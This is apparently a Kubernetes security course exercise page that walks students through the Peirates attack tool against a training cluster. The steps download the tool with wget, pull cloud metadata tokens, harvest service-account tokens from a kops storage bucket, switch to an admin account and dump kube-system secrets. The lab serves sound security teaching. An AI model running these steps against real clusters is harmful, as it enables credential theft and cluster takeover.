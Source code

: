 ```yaml
---
layout: exercise
title: "Exercise: Peirates"
exercise: 999
tools: openssh-client 
directories_to_sync: ssh-config K8S-Exercise
---
```



1. (*NOTE: You'll only need to do this step if you skipped the [Kubernetes Cloud Attacks](/exercises/cloud-attacks/) exercise*).

    The course proctors will provide you with a cloud cluster ID number (`N`). Store this number in your shell profile in a new variable `CLOUD_ID`, and then read this new variable into your environment now:

    ```shell
    # Replace the "N" in `CLOUD_ID=N` with the ID number provided by the proctors
    echo "export CLOUD_ID=N" >> ~/.bashrc
    bash
    source ~/.bashrc
    ```

2. We'll be using the same cloud cluster as in [Kubernetes Cloud Attacks](/exercises/cloud-attacks/), so let's set an `alias`:

    ```shell
    alias kubectl="/root/K8S-Exercise/kubectl \
    --server=$(cat /sync/.cloud_clusters/serverip-$CLOUD_ID ) \
    --token=$(cat /sync/.cloud_clusters/token-cluster-$CLOUD_ID ) \
    --certificate-authority=/sync/.cloud_clusters/ca.crt-$CLOUD_ID"
    ```


3. And test that it works:

    ```shell
    kubectl get pods
    ```

4. Let's start a `hostNetwork` pod based on Peirates:

    ```shell
    kubectl --dry-run=client -o json run peirates \
    --image=bustakube/alpine-peirates | \
    jq '.spec.hostNetwork=true' | \
    kubectl create -f -
    ```

    Alternatively, we could exec into the priv pod and pull down Peirates:

    ```
    kubectl exec -it priv -- /bin/bash
    apk add wget
    github="https://github.com/inguardians/peirates"
    wget ${github}/releases/download/v1.1.12/peirates-linux-amd64.tar.xz
    tar -xvf peirates-linux-amd64.tar.xz
    mv peirates-linux-amd64/peirates /usr/bin/
    chmod 755 /usr/bin/peirates
    peirates
    ```

5. Exec into your peirates pod:

    ```shell
    kubectl exec -it peirates -- /bin/bash
    ```

6. Run peirates:

    ```shell
    peirates
    ```

7. Let's ask the metadata API for credentials:

    ```shell
    get-gcp-token
    ```

8. Hit `Enter` to get back to the menu, do this whenever a function in Peirates ends.

9. Now, let's try our kops GCP-bucket attack:

    ```shell
    attack-kops-gcs-1
    ```

10. Choose to store the tokens found in the bucket:

    ```shell
    1
    ```

11. That got us quite a few service account tokens. See them and get ready to switch to one by typing:

    ```shell
    sa-menu
    ```

12. Switch service accounts:

    ```shell
    switch
    ```

13. Choose the admin token, which should be option `1`.

    ```shell
    1
    ```

14. Now switch your namespace to the `kube-system` control plane namespace. First, bring up the namespace menu:

    ```shell
    ns-menu
    ```

15. Now, choose `switch`:

    ```shell
    switch
    ```

16. Switch to the `kube-system` namespace:

    ```shell
    kube-system
    ```

17. List the secrets in this namespace:

    ```shell
    list-secrets
    ```

18. Now ask to use a `kubectl` command:

    ```shell
    kubectl
    ```

19. Pick a command to run, like:

    ```shell
    get secrets -o yaml
    ```

20. Play around some more, then check out our GitHub page and contribute:

[https://github.com/inguardians/peirates](https://github.com/inguardians/peirates)
